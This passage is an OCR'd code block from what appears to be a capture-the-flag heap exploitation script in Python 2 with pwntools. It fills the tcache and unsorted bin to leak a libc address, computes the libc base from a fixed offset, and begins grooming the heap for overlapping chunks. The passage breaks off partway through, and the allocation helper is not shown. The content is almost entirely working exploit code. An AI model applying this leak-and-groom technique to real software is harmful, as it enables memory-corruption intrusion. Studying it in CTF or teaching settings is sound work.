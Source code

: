 ```

def free(index):
  ri()
  target.sendline('F')
  ri()
  target.sendline(str(index))
    
def show(index):
  ri()
  target.sendline('S')
  ri()
  target.sendline(str(index))

# Start off by allocating 10 blocks, then free them all.
# Fill up the tcache and get some blocks in the unsorted bin for the leak

for i in xrange(10):
    malloc(str(i)*0xf8, 0xf8)

for i in range(9, -1, -1):
    free(i)


# Allocate blocks until we get to the one stored in the unsorted bin with the libc address
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('15935728', 0xf8) # Libc address here

# Leak the libc address
ri()
target.sendline('S')
ri()
target.sendline('8')
target.recvuntil("15935728")

leak = target.recvline().replace("\x0a", "")
leak = u64(leak + "\x00"*(8 - len(leak)))
libcBase = leak - 0x1e4ca0

print "libc base: " + hex(libcBase)



# Free all allocated blocks, so we can allocate more
for i in range(8, -1, -1):
    free(i)

# Allocate / free blocks in certain order, to groom heap so we can
# allocate blocks behind already existing blocks

malloc("1"*8, 0x8)
malloc("2"*8, 0x8)

free(0)
free(1)


```